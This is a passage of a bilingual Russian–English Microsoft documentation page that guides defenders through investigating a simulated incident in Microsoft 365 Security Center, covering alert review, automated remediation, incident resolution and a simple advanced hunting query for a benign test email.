<span data-ttu-id="1c806-214">Щелкните IP-адрес в дереве процессов оповещений, чтобы просмотреть страницу сведений об IP-адресе.</span><span class="sxs-lookup"><span data-stu-id="1c806-214">Click the IP address in the alert process tree to view the IP address details page.</span></span>

 

<span data-ttu-id="1c806-216">На следующем рисунке показана страница сведений о выбранном IP-адресе (щелкнув ссылку IP-адрес в дереве процесса оповещения).</span><span class="sxs-lookup"><span data-stu-id="1c806-216">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="1c806-217"></span><span class="sxs-lookup"><span data-stu-id="1c806-217"></span></span>


<span data-ttu-id="1c806-218">**Предупреждение: реконнаиссанце пользователя и IP-адреса (SMB) (Источник: Azure ATP)**</span><span class="sxs-lookup"><span data-stu-id="1c806-218">**Alert: User and IP address reconnaissance (SMB) (Source: Azure ATP)**</span></span>

<span data-ttu-id="1c806-219">Перечисление с помощью протокола SMB позволяет злоумышленникам получать последние сведения о входе пользователя, которые помогают им перемещаться позже через сеть для доступа к определенной конфиденциальной учетной записи.</span><span class="sxs-lookup"><span data-stu-id="1c806-219">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="1c806-220">В этом обнаружении оповещение инициируется, когда перечисление сеансов SMB выполняется для контроллера домена.</span><span class="sxs-lookup"><span data-stu-id="1c806-220">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a><span data-ttu-id="1c806-222">Просмотр временной шкалы устройства [защитник Майкрософт ATP]</span><span class="sxs-lookup"><span data-stu-id="1c806-222">Review the device timeline [Microsoft Defender ATP]</span></span>
<span data-ttu-id="1c806-223">После изучения различных оповещений в этом инциденте вернитесь к странице инцидент, который вы ранее проучили.</span><span class="sxs-lookup"><span data-stu-id="1c806-223">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="1c806-224">Перейдите на вкладку **Devices (устройства** ) на странице "инцидент", чтобы просмотреть устройства, участвующие в этом инциденте, в соответствии с отчетом Microsoft Defender ATP и Azure ATP.</span><span class="sxs-lookup"><span data-stu-id="1c806-224">Click the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender ATP and Azure ATP.</span></span>

<span data-ttu-id="1c806-225">Щелкните имя устройства, на котором была выполнена атака, чтобы открыть страницу сущностей для этого конкретного устройства.</span><span class="sxs-lookup"><span data-stu-id="1c806-225">Click the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="1c806-226">На этой странице вы можете видеть оповещения, которые были активированы и связанные с ними события.</span><span class="sxs-lookup"><span data-stu-id="1c806-226">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="1c806-227">Перейдите на вкладку **временная** шкала, чтобы открыть временную шкалу устройства и просмотреть все события и поведения, обнаруженные на устройстве в хронологическом порядке, с обработкой оповещений.</span><span class="sxs-lookup"><span data-stu-id="1c806-227">Click the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>

 

<span data-ttu-id="1c806-229">Расширяя некоторые из более интересных поведений, вы предоставляете полезные сведения, такие как деревья процессов.</span><span class="sxs-lookup"><span data-stu-id="1c806-229">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="1c806-230">Например, прокрутите окно вниз до тех пор, пока не найдете оповещение о **подозрительном внедрении процесса**.</span><span class="sxs-lookup"><span data-stu-id="1c806-230">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="1c806-231">Щелкните **powershell.exe, добавленный в событие notepad.exe процесс** , расположенное ниже, чтобы отобразить полное дерево процессов для этого поведения в графе **сущностей события** в боковой области.</span><span class="sxs-lookup"><span data-stu-id="1c806-231">Click the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="1c806-232">При необходимости используйте панель поиска для фильтрации.</span><span class="sxs-lookup"><span data-stu-id="1c806-232">Use the search bar for filtering if necessary.</span></span>



### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="1c806-234">Просмотр сведений о пользователе [Microsoft Cloud App Security]</span><span class="sxs-lookup"><span data-stu-id="1c806-234">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="1c806-235">На странице инцидент выберите вкладку **Пользователи** , чтобы отобразить список пользователей, участвующих в атаке.</span><span class="sxs-lookup"><span data-stu-id="1c806-235">On the incident page, click the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="1c806-236">Таблица содержит дополнительные сведения о каждом пользователе, в том числе оценку **приоритета** для каждого пользователя.</span><span class="sxs-lookup"><span data-stu-id="1c806-236">The table contains additional information about each user, including each user’s **Investigation Priority** score.</span></span>

<span data-ttu-id="1c806-237">Щелкните имя пользователя, чтобы открыть страницу профиля пользователя, на котором можно выполнить дальнейшее исследование.</span><span class="sxs-lookup"><span data-stu-id="1c806-237">Click the username to open the user’s profile page where further investigation can be conducted.</span></span> <span data-ttu-id="1c806-238">[Узнайте больше о том, как изучить рискованных пользователей](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span><span class="sxs-lookup"><span data-stu-id="1c806-238">[Read more about investigating risky users](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).</span></span>
<br>
<span data-ttu-id="1c806-239"></span><span class="sxs-lookup"><span data-stu-id="1c806-239"></span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="1c806-240">Автоматическое исследование и защита</span><span class="sxs-lookup"><span data-stu-id="1c806-240">Automated investigation and remediation</span></span>
>[!NOTE]
><span data-ttu-id="1c806-241">Прежде чем мы поможем вам пройти эту эмуляцию, просмотрите следующее видео, чтобы узнать, что такое автоматическая самовосстановление, где его можно найти на портале и как это можно сделать в ваших операциях безопасности:</span><span class="sxs-lookup"><span data-stu-id="1c806-241">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="1c806-242">Вернитесь к инциденту на портале Центра безопасности Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="1c806-242">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="1c806-243">На вкладке " **расследования** " на странице **инцидент** отображаются автоматические расследования, инициированные Azure ATP и ЗАЩИТНИКОМ Майкрософт для пакета ATP.</span><span class="sxs-lookup"><span data-stu-id="1c806-243">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Azure ATP and Microsoft Defender ATP.</span></span> <span data-ttu-id="1c806-244">На снимке экрана ниже показано только автоматическое исследование, инициированное пакетом ATP для защитника Майкрософт.</span><span class="sxs-lookup"><span data-stu-id="1c806-244">The screenshot below displays only the automated investigation triggered by Microsoft Defender ATP.</span></span> <span data-ttu-id="1c806-245">По умолчанию защитник Майкрософт автоматически исправлять артефакты, обнаруженные в очереди, требующие исправления.</span><span class="sxs-lookup"><span data-stu-id="1c806-245">By default, Microsoft Defender ATP automatically remediates the artifacts found in the queue which requires remediation.</span></span>



<span data-ttu-id="1c806-247">Щелкните оповещение, которое инициировало исследование, чтобы открыть страницу " **сведения об расследовании** ".</span><span class="sxs-lookup"><span data-stu-id="1c806-247">Click the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="1c806-248">Вы увидите следующее:</span><span class="sxs-lookup"><span data-stu-id="1c806-248">You’ll see the following:</span></span>
- <span data-ttu-id="1c806-249">Оповещения, которые запускают автоматическое исследование.</span><span class="sxs-lookup"><span data-stu-id="1c806-249">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="1c806-250">Затронутые пользователи и устройства.</span><span class="sxs-lookup"><span data-stu-id="1c806-250">Impacted users and devices.</span></span> <span data-ttu-id="1c806-251">Если индикаторы находятся на дополнительных устройствах, эти дополнительные устройства также будут перечислены.</span><span class="sxs-lookup"><span data-stu-id="1c806-251">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="1c806-252">Список свидетельств.</span><span class="sxs-lookup"><span data-stu-id="1c806-252">List of evidence.</span></span> <span data-ttu-id="1c806-253">Сущности, которые были найдены и проанализированы, такие как файлы, процессы, службы, драйверы и сетевые адреса.</span><span class="sxs-lookup"><span data-stu-id="1c806-253">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="1c806-254">Эти сущности анализируются на возможные связи с оповещением и оцениваются как опасные или вредоносные.</span><span class="sxs-lookup"><span data-stu-id="1c806-254">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="1c806-255">Обнаружены угрозы.</span><span class="sxs-lookup"><span data-stu-id="1c806-255">Threats found.</span></span> <span data-ttu-id="1c806-256">Известные угрозы, обнаруженные во время расследования.</span><span class="sxs-lookup"><span data-stu-id="1c806-256">Known threats that are found during the investigation.</span></span>

>[!NOTE]
><span data-ttu-id="1c806-257">В зависимости от времени автоматическое исследование может по-прежнему выполняться.</span><span class="sxs-lookup"><span data-stu-id="1c806-257">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="1c806-258">Подождите несколько минут, пока завершится сбор и анализ доказательств и изучите результаты.</span><span class="sxs-lookup"><span data-stu-id="1c806-258">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="1c806-259">Обновите страницу **сведений об расследовании** , чтобы получить последние результаты.</span><span class="sxs-lookup"><span data-stu-id="1c806-259">Refresh the **Investigation details** page to get the latest findings.</span></span>



<span data-ttu-id="1c806-261">Во время автоматического исследования служба Microsoft Defender ATP обнаружила notepad.exe процесс, который был добавлен в качестве одного из артефактов, требующих исправления.</span><span class="sxs-lookup"><span data-stu-id="1c806-261">During the automated investigation, Microsoft Defender ATP identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="1c806-262">Защитник Майкрософт автоматически прерывает внедрение подозрительных процессов в рамках автоматизированного исправления.</span><span class="sxs-lookup"><span data-stu-id="1c806-262">Microsoft Defender ATP automatically stops the suspicious process injection as part of the automated remediation.</span></span> 

<span data-ttu-id="1c806-263"><i>notepad.exe</i> исчезнет из списка запущенных процессов на тестовом устройстве.</span><span class="sxs-lookup"><span data-stu-id="1c806-263">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="1c806-264">Устранение инцидента</span><span class="sxs-lookup"><span data-stu-id="1c806-264">Resolve the incident</span></span>

<span data-ttu-id="1c806-265">После завершения расследования и подтверждения исправления закройте инцидент.</span><span class="sxs-lookup"><span data-stu-id="1c806-265">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="1c806-266">Щелкните **Управление инцидентом**.</span><span class="sxs-lookup"><span data-stu-id="1c806-266">Click **Manage incident**.</span></span> <span data-ttu-id="1c806-267">Задайте для параметра состояние **разрешение инцидента** и выберите соответствующую классификацию.</span><span class="sxs-lookup"><span data-stu-id="1c806-267">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="1c806-268">После того как инцидент будет устранен, он закроет все связанные оповещения в центре безопасности Microsoft 365 и связанных с ним порталах.</span><span class="sxs-lookup"><span data-stu-id="1c806-268">Once the incident is resolved, it will close all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>

 

<br>
<span data-ttu-id="1c806-270">Это включает имитацию атак для сценариев управления инцидентами и автоматического исследования и устранения проблем.</span><span class="sxs-lookup"><span data-stu-id="1c806-270">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="1c806-271">Следующая имитация позволит вам пройти Поиск потенциально вредоносных файлов с помощью упреждающего Поиск угроз.</span><span class="sxs-lookup"><span data-stu-id="1c806-271">The next simulation will take you through proactive threat hunting for potentially-malicious files.</span></span> 

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="1c806-272">Сценарий расширенного подпоиска</span><span class="sxs-lookup"><span data-stu-id="1c806-272">Advanced hunting scenario</span></span>

>[!NOTE]
><span data-ttu-id="1c806-273">Прежде чем мы поможем вам выполнить имитацию, просмотрите следующее видео, чтобы узнать о расширенных концепциях поиска, узнать, где можно найти его на портале, и узнать, как она может помочь вам в операциях по обеспечению безопасности:</span><span class="sxs-lookup"><span data-stu-id="1c806-273">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="1c806-274">Требования к среде подсистемы поискового сервера</span><span class="sxs-lookup"><span data-stu-id="1c806-274">Hunting environment requirements</span></span>
<span data-ttu-id="1c806-275">Для этого сценария необходимо указать один внутренний почтовый ящик и устройство.</span><span class="sxs-lookup"><span data-stu-id="1c806-275">There is a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="1c806-276">Кроме того, вам потребуется внешняя учетная запись электронной почты, чтобы отправить тестовое сообщение.</span><span class="sxs-lookup"><span data-stu-id="1c806-276">You will also need an external email account to send the test message.</span></span>

1.  <span data-ttu-id="1c806-277">Убедитесь, что ваш клиент [включил защиту от угроз Майкрософт](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span><span class="sxs-lookup"><span data-stu-id="1c806-277">Verify that your tenant has [enabled Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2.  <span data-ttu-id="1c806-278">Определите целевой почтовый ящик, который будет использоваться для получения электронной почты.</span><span class="sxs-lookup"><span data-stu-id="1c806-278">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="1c806-279">а.</span><span class="sxs-lookup"><span data-stu-id="1c806-279">a.</span></span>  <span data-ttu-id="1c806-280">Этот почтовый ящик должен отслеживаться в Office 365 ATP b.</span><span class="sxs-lookup"><span data-stu-id="1c806-280">This mailbox must be monitored by Office 365 ATP b.</span></span>  <span data-ttu-id="1c806-281">Устройству из требования 3 требуется доступ к этому почтовому ящику</span><span class="sxs-lookup"><span data-stu-id="1c806-281">The device from requirement 3 needs to access this mailbox</span></span>
3.  <span data-ttu-id="1c806-282">Настройка тестового устройства: a.</span><span class="sxs-lookup"><span data-stu-id="1c806-282">Configure a test device: a.</span></span>  <span data-ttu-id="1c806-283">Убедитесь, что вы используете Windows 10 версии 1903 или более поздней версии.</span><span class="sxs-lookup"><span data-stu-id="1c806-283">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="1c806-284">б.</span><span class="sxs-lookup"><span data-stu-id="1c806-284">b.</span></span>  <span data-ttu-id="1c806-285">Присоедините тестовое устройство к тестовому домену.</span><span class="sxs-lookup"><span data-stu-id="1c806-285">Join the test device to the test domain.</span></span>
    <span data-ttu-id="1c806-286">в.</span><span class="sxs-lookup"><span data-stu-id="1c806-286">c.</span></span>  <span data-ttu-id="1c806-287">[Включите антивирусную программу "Защитник Windows"](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="1c806-287">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="1c806-288">Если у вас возникают проблемы с включением антивирусной программы "Защитник Windows", обратитесь к [разделу Устранение неполадок](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="1c806-288">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="1c806-289">г.</span><span class="sxs-lookup"><span data-stu-id="1c806-289">d.</span></span>  <span data-ttu-id="1c806-290">[Встроенный в Advanced Threat Protection в защитнике Майкрософт (мдатп)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="1c806-290">[Onboard to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="1c806-291">Запуск имитации</span><span class="sxs-lookup"><span data-stu-id="1c806-291">Run the simulation</span></span>
1.  <span data-ttu-id="1c806-292">С внешней учетной записи электронной почты отправьте сообщение электронной почты в почтовый ящик, определенный на этапе 2 раздела требования к тестовой среде.</span><span class="sxs-lookup"><span data-stu-id="1c806-292">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="1c806-293">Включите вложение, которое будет разрешено с помощью существующих политик фильтрации электронной почты.</span><span class="sxs-lookup"><span data-stu-id="1c806-293">Include an attachment that will be allowed through any existing email filter policies.</span></span>  <span data-ttu-id="1c806-294">Этот файл не обязательно должен быть вредоносным или исполняемым файлом.</span><span class="sxs-lookup"><span data-stu-id="1c806-294">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="1c806-295">Предложенные типы файлов: <i>PDF</i>, <i>exe</i> (если разрешено) или документ Office (например, файл Word).</span><span class="sxs-lookup"><span data-stu-id="1c806-295">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2.  <span data-ttu-id="1c806-296">Откройте отправленную электронную почту с устройства, настроенного в шаге 3 раздела требования к тестовой среде.</span><span class="sxs-lookup"><span data-stu-id="1c806-296">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="1c806-297">Либо откройте вложение, либо сохраните файл на устройстве.</span><span class="sxs-lookup"><span data-stu-id="1c806-297">Either open the attachment or save the file to the device.</span></span>


<span data-ttu-id="1c806-298">**Поиск в поиске**</span><span class="sxs-lookup"><span data-stu-id="1c806-298">**Go hunting**</span></span>
1.  <span data-ttu-id="1c806-299">Откройте портал security.microsoft.com.</span><span class="sxs-lookup"><span data-stu-id="1c806-299">Open the security.microsoft.com portal.</span></span>

2.  <span data-ttu-id="1c806-300">Перейдите к разделу Поиск **> расширенного**поиска.</span><span class="sxs-lookup"><span data-stu-id="1c806-300">Navigate to **Hunting > Advanced hunting**.</span></span>

     

3.  <span data-ttu-id="1c806-302">Создание запроса, который начинает сбор событий электронной почты.</span><span class="sxs-lookup"><span data-stu-id="1c806-302">Build a query that starts by gathering email events.</span></span>

    1.  <span data-ttu-id="1c806-303">В области запрос нажмите кнопку Создать.</span><span class="sxs-lookup"><span data-stu-id="1c806-303">From the query pane, select New.</span></span>
    
    1.  <span data-ttu-id="1c806-304">Дважды щелкните таблицу Емаилевентс в схеме.</span><span class="sxs-lookup"><span data-stu-id="1c806-304">Double-click on the EmailEvents table from the schema.</span></span>

        ```
        EmailEvents 
        ```                                        

    1.  <span data-ttu-id="1c806-305">Изменение временного кадра на последние 24 часа.</span><span class="sxs-lookup"><span data-stu-id="1c806-305">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="1c806-306">При условии, что сообщение, отправленное при выполнении эмуляции выше, было изменено в течение 24 часов, в противном случае изменяется временной кадр.</span><span class="sxs-lookup"><span data-stu-id="1c806-306">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>
    
         

    1.  <span data-ttu-id="1c806-309">Выполните запрос.</span><span class="sxs-lookup"><span data-stu-id="1c806-309">Run the query.</span></span>  <span data-ttu-id="1c806-310">В зависимости от среды для пилотного проекта может быть много результатов.</span><span class="sxs-lookup"><span data-stu-id="1c806-310">You may have many results depending on the environment for the pilot.</span></span>  

        > [!NOTE]
        > <span data-ttu-id="1c806-311">На следующем шаге показано, как можно ограничить количество возвращаемых данных.</span><span class="sxs-lookup"><span data-stu-id="1c806-311">See the next step for filtering options to limit data return.</span></span>

         

        > [!NOTE]
        > <span data-ttu-id="1c806-313">При расширенном поиске отображаются результаты запроса в виде табличных данных.</span><span class="sxs-lookup"><span data-stu-id="1c806-313">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="1c806-314">Вы также можете отказаться от просмотра данных в других типах форматов, таких как диаграммы.</span><span class="sxs-lookup"><span data-stu-id="1c806-314">You can also opt to view the data in other format types such as charts.</span></span>    

    1.  <span data-ttu-id="1c806-315">Просмотрите результаты и проверьте, можно ли определить открытое сообщение электронной почты.</span><span class="sxs-lookup"><span data-stu-id="1c806-315">Look at the results and see if you can identify the email you opened.</span></span>  <span data-ttu-id="1c806-316">Отображение сообщения в расширенном поиске может занять до 2 часов.</span><span class="sxs-lookup"><span data-stu-id="1c806-316">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="1c806-317">Если среда электронной почты велика и существует много результатов, можно использовать **параметр Показать фильтры** , чтобы найти сообщение.</span><span class="sxs-lookup"><span data-stu-id="1c806-317">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span> 

        <span data-ttu-id="1c806-318">В этом примере сообщение электронной почты было отправлено с помощью учетной записи Yahoo.</span><span class="sxs-lookup"><span data-stu-id="1c806-318">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="1c806-319">Щелкните **+** значок рядом с **Yahoo.com** в разделе сендерфромдомаин, а затем нажмите кнопку **Применить** , чтобы добавить выбранный домен в запрос.</span><span class="sxs-lookup"><span data-stu-id="1c806-319">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span>  <span data-ttu-id="1c806-320">Следует использовать домен или учетную запись электронной почты, которая использовалась для отправки тестового сообщения, на этапе 1 запуска имитации для фильтрации результатов.</span><span class="sxs-lookup"><span data-stu-id="1c806-320">You should use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span>  <span data-ttu-id="1c806-321">Выполните запрос еще раз, чтобы получить меньший набор результатов, чтобы убедиться, что вы видите сообщение от имитации.</span><span class="sxs-lookup"><span data-stu-id="1c806-321">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>
   
